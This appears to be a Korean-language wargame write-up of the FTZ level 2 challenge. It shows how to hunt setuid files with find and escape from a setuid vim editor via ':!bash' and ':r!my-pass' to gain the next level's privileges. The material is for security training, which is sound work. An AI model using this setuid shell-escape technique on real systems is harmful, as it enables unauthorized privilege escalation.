 ```yaml
---
title: FTZ Level2
categories: [Wargame]
tags: [FTZ]
path: '/articles/2015-05/FTZ-level2'
date: '2015-05-24T00:00:00.000Z'
comments: true
---
```


level1에서 획득한 패스워드를 이용하여 level2에 접속합니다.

```
[level2@ftz level2]$ ls -l
total 12
-rw-r--r--    1 root     root           60 Mar 23  2000 hint
drwxr-xr-x    2 root     level2       4096 Feb 24  2002 public_html
drwxrwxr-x    2 root     level2       4096 May 22 00:27 tmp

[level2@ftz level2]$ cat hint

텍스트 파일 편집 중 쉘의 명령을 실행시킬 수 있다는데...
```

우선 다음 권한을 획득해야 하므로 `find`명령을 이용하여 level3의 프로그램을 찾도록 하겠습니다.

```
[level2@ftz level2]$ find / -user level3 -perm +6000 2>/dev/null

/usr/bin/editor
```

이런 파일 한개가 나오게 되었습니다. 힌트와 같이 편집기로 추정되는 파일이므로 아마 이 프로그램에서 사용되는 기능으로 추정됩니다.

그럼 이 프로그램을 실행시켜 보겠습니다.

```
~
~
~                            VIM - Vi IMproved
~
~                             version 6.1.320
~                         by Bram Moolenaar et al.
~               Vim is open source and freely distributable
~
~                      Help poor children in Uganda!
~              type  :help iccf<Enter>       for information
~
~              type  :q<Enter>               to exit
~              type  :help<Enter>  or  <F1>  for on-line help
~              type  :help version6<Enter>   for version info
~
~
~
```

이러한 프로그램이 시작되었습니다. vi 편집기가 실행되었는데, vi편집기의 기능을 이용하는 것임을 알 수 있습니다. vi에서 명령을 실행시킬수 있는데, :을 입력해 보겠습니다.

```
~
~
~                            VIM - Vi IMproved
~
~                             version 6.1.320
~                         by Bram Moolenaar et al.
~               Vim is open source and freely distributable
~
~                      Help poor children in Uganda!
~              type  :help iccf<Enter>       for information
~
~              type  :q<Enter>               to exit
~              type  :help<Enter>  or  <F1>  for on-line help
~              type  :help version6<Enter>   for version info
~
~
~
:
```

이렇게 옵션을 사용할 수 있는 상태가 되게 되는데, 이때 **w**를 입력하고 엔터를 누르게 될 경우 저장, **q**를 누르고 엔터를 누르면 끝내기와 같은 기능이 있습니다. 이 외에도 많은 기능이 있습니다.

그 기능중에 명령을 실행 시킬 수 있는 옵션이 있는데, 그 옵션은 `!`를 이용하는 옵션입니다. !를 입력하고 기능을 실행하면 그 기능을 쉘에서 실행시키는 것과 같이 실행할 수 있습니다. 그 방법 외에도 실행시킨 결과를 편집기로 저장하는 방법이 있는데 `r!`를 사용하는 방법이 있습니다.

```
total 12
-rw-r--r--    1 root     root           60 Mar 23  2000 hint
drwxr-xr-x    2 root     level2       4096 Feb 24  2002 public_html
drwxrwxr-x    2 root     level2       4096 May 22 00:27 tmp
~
~
~
~
~
~
~
~
~
~
~
~
~
:r!ls -l
```

와 같이 사용하게 될 경우 ls -l옵션을 출력하는데 그 출력 결과를 편집기로 보내어 저장을 할 수 있는 상태로 만듭니다. 이러한 식으로 my-pass명령을 사용하게 되면 비밀번호 출력 결과를 편집기에 출력하게 되므로 다음단계 비밀번호를 알아낼 수 있습니다.

my-pass명령 뿐만 아니라 `bash`와 같이 쉘을 실행시키는 옵션도 가능합니다. bash를 실행 시켜 보겠습니다.

```
[level3@ftz level2]$ id
uid=3003(level3) gid=3002(level2) groups=3002(level2)
[level3@ftz level2]$
```

이러한 식으로 권한을 획득할 수도 있습니다.

```
^[[H^[[2J
Level3 Password is "            ".

~
~
~
~
~
~
~
~
~
~
~
~
~
~
:r!my-pass
```
